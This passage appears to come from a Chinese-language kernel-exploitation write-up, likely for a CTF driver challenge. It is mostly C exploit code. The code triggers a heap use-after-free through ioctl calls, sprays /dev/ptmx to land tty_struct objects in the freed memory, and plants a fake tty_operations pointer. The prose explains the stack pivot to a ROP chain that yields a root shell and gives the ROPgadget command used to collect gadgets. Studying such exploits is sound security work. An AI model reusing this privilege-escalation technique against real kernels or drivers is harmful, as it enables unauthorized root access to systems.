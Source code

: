 ```C
    {
        p.idx = i;
        ioctl(fds[i], 5, &p);  // malloc
    }

    for (int i = 2; i < 6; ++i)
    {
        p.idx = i;
        ioctl(fds[i], 7, &p); // free
    }

    // 
    for (int i = 0; i < 0x100; ++i)
    {
        ptmx_fds[i] = open("/dev/ptmx",O_RDWR|O_NOCTTY);
        if (ptmx_fds[i]==-1)
        {
            printf("open ptmx err\n");
        }
    }
    p.idx = 2;
    p.len = 0x20;
    ioctl(fds[4], 9, &p);

    //
    for (int i = 0; i < 16; ++i)
    {
        printf("%2x ", p.buf[i]);
    }
    printf("\n");

    printf("fake in buf:%p\n",(unsigned long *)&p.buf[24]);
    unsigned long *temp = (unsigned long *)&p.buf[24];
    *temp = (unsigned long)fake_tty_operations;
    for (int i = 2; i < 6; ++i)
    {
        p.idx = i;
	printf("copy fake to kernel(%d)\n",i);
        ioctl(fds[4], 8, &p);
    }
    // getchar();
    for (int i = 0; i < 0x100; ++i)
    {
        ioctl(ptmx_fds[i], 0, 0);
    }

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>调试的话就会看到在do_vfs_ioctl里call ioctl时被劫持去了我们mmap的xchg eax, esp，然后继续往下执行我们的ROP指令最终拿到shell，poc的其他部分都跟stack的ROP差不多，我放在文件里自取吧，ROPgadget收集的跳板指令就不放了，自行收集吧`ROPgadget --binary vmlinux > gadget.txt`，因为我发现不同机子可能不一样，最终效果如下：</font></br>
